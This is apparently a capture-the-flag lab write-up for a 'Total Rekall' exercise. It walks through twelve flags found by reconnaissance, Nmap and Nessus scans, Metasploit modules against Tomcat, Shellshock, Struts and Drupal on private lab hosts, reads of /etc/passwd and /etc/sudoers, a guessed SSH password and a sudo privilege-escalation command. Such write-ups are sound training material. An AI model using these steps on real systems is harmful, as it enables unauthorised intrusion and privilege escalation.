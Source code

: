 Flag 1: h8s692hskasd
Location: https://centralops.net/co/DomainDossier.aspx
Vulnerability: Open source exposed data
Method/Payload to Exploit: On the Domain Dossier webpage, view the WHOIS data for totalrekall.xyz. The address will show the flag:

Registrant Street: h8s692hskasd Flag1

![Flag 1](images/Day2Flags/flag1.png)


Flag 2: 7sk67cjsdbs

Method/Payload to Exploit:
nslookup -type=txt totalrekall.xyz

![Flag 2](images/Day2Flags/flag2.png)


Flag 3: s7euwehd

Location: crt.sh

Vulnerability: Open source exposed data

Method/Payload to Exploit: On crt.sh, search for totalrekall.xyz to view the flag:

s7euwehd.totalrekall.xyz

![Flag 3](images/Day2Flags/flag3.png)

Flag 4: 5

Location: Scan results

Method/Payload to Exploit: Run an Nmap scan for the network (nmap 192.168.13.0/24) to determine that there are 5 hosts excluding the host scanning from.

![Flag 4](images/Day2Flags/flag4.png)

Flag 5: 192.168.13.13


Location: Scan results

Method/Payload to Exploit: Run an aggressive Nmap scan: nmap -A 192.168.13.0/24

Analyze the results to see that the host that runs Drupal is 192.168.13.13


![Flag 5](images/Day2Flags/flag5.png)

Flag 6: 97610


Location: Nessus scan results

Method/Payload to Exploit:

Run a Nessus scan for 192.168.13.12
One critical vulnerability will appear for Apache Struts.
Click on this critical vulnerability. The id 97610 will display on the top right of this page.

![Flag 6](images/Day2Flags/flag6.png)


Flag 7: 8ks6sbhss


Location/Host: 192.168.13.10

Vulnerability: Apache Tomcat Remote Code Execution Vulnerability (CVE-2017-12617)

Method/Payload to Exploit:

Run MSFconsole.
Search for exploits that have Tomcat and JSP.
Use the exploit multi/http/tomcat_jsp_upload_bypass, and set the option for the RHOST to 192.168.13.10.
After successfully getting a Meterpreter shell, enter "SHELL" to get to the command line.
Run the following to get the flag:  / cat /root/.flag7.txt


![Flag 7](images/Day2Flags/flag7.png)


Flag 8: 9dnx5shdf5


Location: 192.168.13.11

Vulnerability: Shellshock

Method/Payload to Exploit:

Run MSFconsole, and search exploits that have Shellshock.
Run MSF (exploit/multi/http/apache_mod_cgi_bash_env_exec) and set the following options:

target URI(The vulnerable webpage): /cgi-bin/shockme.cgi
RHOST: 192.168.13.11

To get the flag, run the following from a shell on the exploited machine: cat /etc/sudoers

![Flag 8](images/Day2Flags/flag8.png)

Flag 9: wudks8f7sd

Location: 192.168.13.11

Method/Payload to Exploit: On the same machine as Flag 8, run cat /etc/passwd

![Flag 9](images/Day2Flags/flag9.png)

Flag 10: wjasdufsdkg


Location: 192.168.13.12

Vulnerability: Struts - CVE-2017-5638

Method/Payload to Exploit:  Determine via the Nessus scan that this host is vulnerable to Struts.

After connecting to MSFconsole, search for Struts exploits.
Use the following exploit to get a Meterpreter shell: multi/http/struts2_content_type_ognl.

Set the RHOSTS to 192.168.13.12

You may have to manually connect to the session to get the meterpreter shell with: sessions -i <session number>

Use Meterpreter to download the following file to your Kali machine: /root/flagisinThisfile.7z

From your Kali machine, unzip the file with the following command: 7z x flagisinThisfile.7z

Use cat with the flag file to view the flag.

![Flag 10](images/Day2Flags/flag10.png)


Flag 11: www-data


Location: 192.168.13.13

Vulnerability: Drupal - CVE-2019-6340

Method/Payload to Exploit:

After connecting to MSFconsole, search for Drupal exploits.
Use the following exploit to get a Meterpreter shell MSF: unix/webapp/drupal_restws_unserialize

Set RHOSTS to 192.168.13.13


After getting the Meterpreter shell, run getuid to get the username.

![Flag 11](images/Day2Flags/flag11.png)


Flag 12: d7sdfksdf384


Location: 192.168.13.14

Vulnerability: CVE-2019-14287

Method/Payload to Exploit:

When viewing the WHOIS data from Flag 1, notice that the name is: sshuser Alice

SSH into the server: ssh alice@192.168.13.14

Guess that the password is: alice

To conduct the privilege escalation exploit and obtain the flag, run the following:

sudo -u#-1 cat /root/flag12.txt

![Flag 12](images/Day2Flags/flag12.png)

